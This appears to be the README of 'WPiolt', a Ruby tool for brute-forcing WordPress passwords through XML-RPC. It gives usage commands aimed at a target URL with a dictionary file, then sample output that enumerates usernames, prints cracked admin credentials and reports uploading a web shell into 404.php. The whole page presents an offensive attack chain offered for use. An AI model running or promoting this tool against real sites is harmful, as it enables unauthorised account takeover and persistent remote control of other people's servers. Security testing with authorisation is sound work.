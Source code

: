 #WPiolt

================================================================================================

WPiolt - Wordpress Bruteforce tool via XML-RPC. The basic version only provides limited functionalities.


Developer : Andy Yang
Version : 0.1.0
License : GPLv3

================================================================================================
RainMak3r@Could:~/Desktop# ruby WPiolt.rb  -h

EXAMPLE USAGE:

     ./WPilot.rb  -t 'www.target.com' -d '/User/eve/dic.txt'
     ./WPilot.rb  -t '10.0.0.1/wordpress' -d '/User/eve/dic.txt'
    -t, --Target URL/IP              Wordpress target URL or IP
    -d, --Dictionary path            Dictionary file for password Bruteforce.
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby WPilot.rb -t '192.168.0.11/wordpress' -d '/dic'

[Info]     Checking if the target is vulnerable........

[Info]     Target is vulnerable!!!

[Info]     Retreving usernames........

[Info]      Found username: admin

[Info]      Found username: Alice

[Info]      Found username: Bob

[Info]      Bruteforcing passwords ........

[Info]      Cracked Admin Creds: admin:1234567

[Info]      Uploading shell into 404.php..........

[DONE]      Please check a non existing post for the uploaded web shell


